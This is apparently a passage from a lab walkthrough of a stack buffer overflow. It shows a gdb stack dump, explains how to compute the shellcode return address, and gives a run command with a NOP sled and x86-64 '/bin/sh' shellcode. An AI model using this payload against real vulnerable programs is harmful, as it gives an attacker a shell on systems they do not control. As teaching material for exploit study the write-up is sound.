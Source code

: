 ```sh
(gdb) x/100x $rsp-200
0x7fffffffe228: 0x00400450      0x00000000      0xffffe3e0      0x00007fff
0x7fffffffe238: 0x00400561      0x00000000      0xf7dce8c0      0x00007fff
0x7fffffffe248: 0xffffe656      0x00007fff      0x41414141      0x41414141
0x7fffffffe258: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffe268: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffe278: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffe288: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffe298: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffe2a8: 0x41414141      0x41414141      0x41414141      0x622fb948
0x7fffffffe2b8: 0x732f6e69      0xc1481168      0xc14808e1      0x485108e9
0x7fffffffe2c8: 0x48243c8d      0x3bb0d231      0x4242050f      0x42424242
0x7fffffffe2d8: 0x42424242      0x43434242      0x43434343      0x00007f00
0x7fffffffe2e8: 0x00400590      0x00000000      0xffffe3e8      0x00007fff
0x7fffffffe2f8: 0x00000000      0x00000002      0x004005a0      0x00000000
0x7fffffffe308: 0xf7a4302a      0x00007fff      0x00000000      0x00000000
0x7fffffffe318: 0xffffe3e8      0x00007fff      0x00040000      0x00000002
0x7fffffffe328: 0x00400564      0x00000000      0x00000000      0x00000000
0x7fffffffe338: 0x14cb65ee      0xa528a1f1      0x00400450      0x00000000
0x7fffffffe348: 0xffffe3e0      0x00007fff      0x00000000      0x00000000
0x7fffffffe358: 0x00000000      0x00000000      0xd9ab65ee      0x5ad75e8e
0x7fffffffe368: 0x404f65ee      0x5ad74e39      0x00000000      0x00000000
0x7fffffffe378: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffe388: 0xffffe400      0x00007fff      0xf7ffe130      0x00007fff
0x7fffffffe398: 0xf7de7656      0x00007fff      0x00000000      0x00000000
0x7fffffffe3a8: 0x00000000      0x00000000      0x00000000      0x00000000
```

Our shellcode starts on address line `0x7fffffffe2a8` on the 4th column.

Each column is 4-bytes wide, so to reference it, we need to start at `0x7fffffffe2a8` add 3 x 4 = 12 bytes, 12 in hex is `0xC`.

So the return address for the start of our shellcode is `0x7fffffffe2a8` + `0xC` = `0x7fffffffe2b4`

Use a [hex calculator](https://www.calculator.net/hex-calculator.html?number1=7fffffffe2a8&c2op=%2B&number2=C&calctype=op&x=57&y=20)

:::note

This was just an exercise if seeing how the A's and shellcode land in memory and how you can calculate a memory address (in hex) for a certain point in your payload. DONT do this to find your shellcode return address, use the NOP sled method instead.

:::

### NOP slide shellcode address

```sh
(gdb) run $(python -c "print '\x90'*100 + '\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05' + 'B'*12 + 'C'*6")                                                 
The program being debugged has been started already.                                                                
Start it from the beginning? (y or n) y                                                                             
Starting program: /home/user1/overflow-3/buffer-overflow $(python -c "print '\x90'*100 + '\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05' + 'B'*12 + 'C'*6")  
Here's a program that echo's out your input                                                                         
����������������������������������������������������������������������������������������������������H�/bin/shH�H�QH�<$H1Ұ;BBBBBBBBBBBBCCCCCC                                                                                            
                                                                                                                    
```
